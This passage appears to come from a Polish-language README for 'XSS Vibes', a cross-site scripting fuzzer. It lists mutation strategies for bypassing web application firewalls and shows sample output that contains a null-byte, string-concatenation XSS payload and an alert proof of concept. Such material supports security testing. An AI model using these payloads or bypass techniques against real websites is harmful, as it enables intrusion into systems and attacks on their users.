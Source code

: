 ### Strategie mutacji:
```bash
# Podstawowe
case_variation     # Różne kombinacje wielkości liter
encoding          # HTML entities, URL encoding, Unicode
obfuscation       # Komentarze, whitespace, split strings

# Zaawansowane WAF bypass
waf_bypass        # Null bytes, string concatenation, alternative execution
unicode_bypass    # Unicode overrides, combining characters  
advanced_encoding # Double encoding, base64, mixed encodings
context_breaking  # Escape sequences, context terminators
```

### Przykład wyniku:
```bash
🧠 XSS Vibes - AI DOM Fuzzer
==================================================
📊 Analysis Results:
   Detected contexts: 3
   Selected payloads: 15
   Coverage score: 85.2%

🎯 Top Contexts:
   eval_contexts (priority: 10, matches: 1)
   useEffect (priority: 9, matches: 2)  
   shadowRoot (priority: 8, matches: 1)

💡 Recommendations:
   🚨 HIGH PRIORITY: Focus on 3 critical contexts
   🔀 Generated 8 payload mutations for bypass attempts
   ⚡ Detected eval contexts - prioritize code injection payloads
   ⚛️ React hooks detected - test component lifecycle injection
   🌑 Shadow DOM detected - test encapsulation bypass

📋 Generated Payloads:
{
  "payload": "\"><scr\u0000ipt>window[\"ale\"+\"rt\"](1)</scr\u0000ipt>",
  "context": "eval_contexts",
  "priority": 9,
  "mutation_strategy": "waf_bypass",
  "description": "WAF bypass with null bytes and string concatenation"
}
```

---

## 📊 AI REPORT GENERATOR

### Funkcje:
- **Comprehensive reports:** Kompletne raporty HTML z interaktywnymi wykresami
- **Template analysis:** Raporty per template z detalami payload'ów
- **Payload analysis:** Raporty per payload z wynikami testów
- **Professional layout:** Gotowe do prezentacji raporty dla klientów
